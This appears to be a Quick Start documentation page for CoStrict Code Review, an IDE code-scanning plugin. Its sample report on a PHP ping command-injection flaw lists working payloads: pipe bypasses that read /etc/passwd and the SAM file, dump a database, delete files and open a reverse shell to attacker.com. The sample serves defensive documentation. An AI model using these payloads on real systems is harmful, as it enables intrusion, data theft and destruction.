



# Quick Start

CoStrict Code Review is an intelligent code quality inspection tool that precisely covers four categories of defects: logical defects, security vulnerabilities, static defects, and memory issues. It provides complete defect tracing with actionable fix recommendations, making your coding more focused and your submissions more confident.

## System Requirements

| Installation Method | Version Requirement | Supported Platforms |
|---|---|---|
| VSCode Plugin | >= 2.1.3 | VSCode |
| JetBrains Plugin | >= 2.1.3 | IDEA / PyCharm / WebStorm, etc. |

## How to Use

Perform interactive code quality scans through the IDE during the coding phase, providing real-time assistance to developers in identifying and fixing code issues.

- Supports conversational interaction windows for instant communication and quick issue localization
- Can incorporate prior knowledge (such as business context, coding standards, etc.) to improve detection accuracy
- Displays model reasoning process so you know exactly why an issue was reported

### Scan Methods

#### Method 1: Scan Code File

In the file explorer, **right-click on a file** and select **CoStrict > Code Review** to perform a code scan on the entire file.

<!-- TODO: Add screenshot - 扫描代码文件 -->


#### Method 2: Scan Selected Code Snippet

In the editor, **select a code snippet**, then **right-click** and choose **Code Review** to scan the selected code.

<!-- TODO: Add screenshot - 扫描代码片段 -->


#### Method 3: Scan Code Changes

Click the **CoStrict icon** on the left sidebar, switch to the **Code Scan** page, and scan code changes in the current workspace.

<!-- TODO: Add screenshot - 扫描代码变更 -->


### Scan Report

After triggering a code review, the CODE REVIEW panel displays real-time progress. The scanning duration is proportional to the amount of code being processed, ranging from a few minutes to several tens of minutes. Once the scan is complete, the CODE REVIEW panel displays the results.

#### View Issue List

- **Scan Summary**: The number of files scanned and the total number of issues found
- **Issue List**: File path, line number, description, and severity level, with color bars indicating severity: <span style={{color: '#E53935'}}>**Red (High)**</span>, <span style={{color: '#FDD835'}}>**Yellow (Medium)**</span>, <span style={{color: '#42A5F5'}}>**Blue (Low)**</span>
- **Issue Filtering**: Filter by severity, issue labels, and other conditions

<!-- TODO: Add screenshot - 侧边栏面板 -->


#### View Issue Details

Click on an issue to view details in the code editor. The corresponding problematic code line will be automatically located and highlighted, with a detailed report displayed in a floating panel below.

**Defect Analysis** - Analyzes the root cause, trigger conditions, and exploitation methods
**Business Impact** - Assesses security risks and potential attack scenarios
**Fix Recommendations** - Provides actionable fix solutions and reference code

<details>
<summary>View Complete Example</summary>

**<span style={{color: '#E53935'}}>[High]</span> Command Injection Vulnerability - Incomplete Blacklist Filter Allows Pipe Bypass**

### Defect Analysis

**Root Cause:** The blacklist filtering mechanism has serious design flaws

- Line 12: `'| '` → Only filters "pipe+space" combination, single `|` character is not filtered
- Line 9: `'||'` → `''` Although `||` is filtered, attackers can use a single `|` for command injection
- Line 10: `'&'` → `''` Filters single `&`, so `&&` bypass is ineffective (will be split and filtered)

---

### Trigger Conditions

**Attacker Input:** `127.0.0.1|whoami` (Windows/Linux universal)

**Process:**
1. After `str_replace()` processing, the `|` character is retained (because it doesn't match the `'| '` pattern)
2. Final execution: `ping 127.0.0.1|whoami`
3. Result: The `whoami` command is executed and returns results

---

### Bypass Methods

| Type | Example |
|------|---------|
| Universal bypass | Use a single `|` pipe |
| Windows | `127.0.0.1\|dir`, `127.0.0.1\|type C:\Windows\System32\config\SAM` |
| Linux | `127.0.0.1\|cat /etc/passwd`, `127.0.0.1\|id` |

---

### Business Impact

**Security Risks:**

- **Remote Code Execution** - Attackers can execute arbitrary system commands
- **Full System Control** - Lateral movement after gaining web server access
- **Data Theft** - Read sensitive files (database configs, user data, keys, etc.)
- **Privilege Escalation** - Escalate to root/administrator through system vulnerabilities
- **Persistent Attacks** - Plant backdoors, Web Shells, malicious scripts

**Attack Scenarios:**

- Information gathering: `\|cat /etc/passwd` to get user list
- Database theft: `\|mysqldump -u root -p database > dump.sql`
- Reverse shell: `\|bash -i >& /dev/tcp/attacker.com/4444 0>&1`
- Ransomware: `\|find / -name "*.doc" -exec rm {} \;`

---

### Fix Recommendations

**Solution 1: Use Whitelist Validation (Recommended)**

```php
if( !preg_match( '/^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$/', $target ) ) {
    die( 'Invalid IP address format' );
}
```

**Solution 2: Escape Dangerous Characters (Not Recommended, Still Bypassable)**

```php
$target = escapeshellarg( $target );
$cmd = shell_exec( 'ping ' . $target );
```

**Solution 3: Remove All Non-Essential Characters**

```php
$target = preg_replace( '/[^0-9.]/', '', $target );
```

</details>

<!-- TODO: Add screenshot - 完整效果 -->


#### View Defect History

Click the clock icon in the top-right corner of the panel to view historical scan records. The history panel includes the following features:

- **Record List**: Displays all scanned files and scan times
- **Expand Records**: Click a record to expand and view specific defect entries
- **Record Management**: Each record and defect entry supports deletion

After expanding a history record, you can view the code and defect details for that scan on the right side.

<!-- TODO: Add screenshot - 审查历史 -->


#### Handle Defects

The defect detail card provides four action buttons in the top-right corner:

- **Accept**: Acknowledge the issue, keep code unchanged
- **Reject**: Dismiss the issue, consider it not a problem or AI output is incorrect
- **Fix**: Apply the fix solution, automatically repair code with context
- **Close**: Close the detail card

Your feedback will help make the Code Review feature smarter and more accurate.

<!-- TODO: Add screenshot - 处置缺陷 -->


